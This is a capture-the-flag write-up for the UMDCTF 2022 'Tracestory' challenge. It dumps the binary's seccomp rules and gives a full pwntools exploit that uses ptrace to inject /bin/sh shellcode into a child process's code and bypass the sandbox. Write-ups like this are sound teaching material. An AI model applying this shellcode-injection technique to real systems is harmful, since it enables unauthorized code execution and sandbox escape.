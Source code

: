 ```yaml
---
title: UMDCTF 2022 Tracestory
date: 2022-03-07
categories: [ctf]
tags: [umdctf, seccomp, ptrace]
---
```


# UMDCTF 2022

## Tracestory

> I am trying to figure out the end of this story, but I am not able to read it. Could you help me figure out what it is?
>
> **Author**: WittsEnd2
>
> `0.cloud.chals.io 15148`
>
> [`trace_story`](trace_story)

## Summary

This is a seccomp challenge where you have to utilize `ptrace` to change behavior of child process.

## Analysis

### Binary Analysis

Looking at `main` function, here are interesting things:

1. Uses seccomp
2. Uses fork
   1. Child process calls function called `read_story()`
   2. Parent process then calls `read_input()` then `setup_seccomp()`
3. Whatever gets written to `read_input()` will eventually be called as function in `var_1020()`

Child is forked off before `seccomp` rules gets applied.
Parent process gets input from user then just executes it. (Memory where they store the user function is mmaped with `xwr` permission)


### Seccomp Rules Analysis
![](/assets/img/2022-03-07-21-24-37.png)

Using `seccomp-tools`, you can dump the seccomp rules

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x18 0xc000003e  if (A != ARCH_X86_64) goto 0026
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x15 0xffffffff  if (A != 0xffffffff) goto 0026
 0005: 0x15 0x13 0x00 0x00000003  if (A == close) goto 0025
 0006: 0x15 0x12 0x00 0x00000004  if (A == stat) goto 0025
 0007: 0x15 0x11 0x00 0x00000005  if (A == fstat) goto 0025
 0008: 0x15 0x10 0x00 0x00000006  if (A == lstat) goto 0025
 0009: 0x15 0x0f 0x00 0x0000000a  if (A == mprotect) goto 0025
 0010: 0x15 0x0e 0x00 0x0000000c  if (A == brk) goto 0025
 0011: 0x15 0x0d 0x00 0x00000015  if (A == access) goto 0025
 0012: 0x15 0x0c 0x00 0x00000018  if (A == sched_yield) goto 0025
 0013: 0x15 0x0b 0x00 0x00000020  if (A == dup) goto 0025
 0014: 0x15 0x0a 0x00 0x00000021  if (A == dup2) goto 0025
 0015: 0x15 0x09 0x00 0x00000038  if (A == clone) goto 0025
 0016: 0x15 0x08 0x00 0x0000003c  if (A == exit) goto 0025
 0017: 0x15 0x07 0x00 0x0000003e  if (A == kill) goto 0025
 0018: 0x15 0x06 0x00 0x00000050  if (A == chdir) goto 0025
 0019: 0x15 0x05 0x00 0x00000051  if (A == fchdir) goto 0025
 0020: 0x15 0x04 0x00 0x00000060  if (A == gettimeofday) goto 0025
 0021: 0x15 0x03 0x00 0x00000065  if (A == ptrace) goto 0025
 0022: 0x15 0x02 0x00 0x00000066  if (A == getuid) goto 0025
 0023: 0x15 0x01 0x00 0x00000068  if (A == getgid) goto 0025
 0024: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0026
 0025: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0026: 0x06 0x00 0x00 0x00000000  return KILL
```

Simplified view of above rules

 ### allowed syscalls

```
 close
 stat
 fstat
 lstat
 mprotect
 brk
 access
 sched_yield
 dup
 dup2
 clone
 exit
 kill
 chdir
 fchdir
 gettimeofday
 ptrace
 getuid
 getgid
 exit_group
```

Looking at these syscall, only write primitive syscall was `ptrace` and also the challenge is called `trace_story` so it is very obvious that we would need to use `ptrace` eventually.

## Solution

We can use `ptrace` to overwrite child's text segment with our assembly code. Child process executes random code in a infinite loop so we can just overwrite the code in the beginning of the infinite loop.

Usual process for using `ptrace` function goes as follow
Attach to child process `ptrace(PTRACE_ATTACH, CHILD_PID, 0, 0)` -> Wait for child to attach `wait(0)` -> Write to child's text segment to change the code by `ptrace(PTRACE_POKETEXT, CHILD_PID, CODE_ADDRESS, 8_BYTES_OF_CODE)` -> Detach from child `ptrace(PTRACE_DETACH, CHILD_PID, 0, 0)`

Problem is we don't have `wait()` in our syscall. So we can probably use `gettimeofday` and calculate our time that way but as great Ken Thompson said once, `When in doubt, use brute force.` So I will just attach -> write_text -> detach -> go back to beginning and repeat.

### Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('trace_story')
context.terminal = ['tmux', 'splitw', '-h']



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(args.HOST, int(args.PORT))
    else:
        return process([exe.path] + argv, *a, **kw)



gdbscript = f'''
tbreak main
set follow-fork-mode parent
# set detach-on-fork off

b *0x401907
# b *0x401789
continue
'''.format(**locals())

# -- Exploit goes here --
"""
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
"""

io = start()


io.recvuntil("pid: ")
pid = int(io.recvline().strip())
print(f'pid is {pid}')




payload = "begin:"
payload += shellcraft.ptrace(constants.linux.PTRACE_ATTACH, pid, 0, 0)

binsh = asm(shellcraft.sh())
start_addr = 0x401789

for i in range(0, int(len(binsh)/8)):
    load_shit = u64(binsh[i * 8:8+(i*8)])
    payload += shellcraft.ptrace(constants.linux.PTRACE_POKETEXT, pid, start_addr + (i * 8), load_shit)

payload += shellcraft.ptrace(constants.linux.PTRACE_DETACH, pid, 0, 0)

payload += """
jmp begin
"""

io.sendlineafter(b'Input: \n', asm(payload))

io.interactive()
```
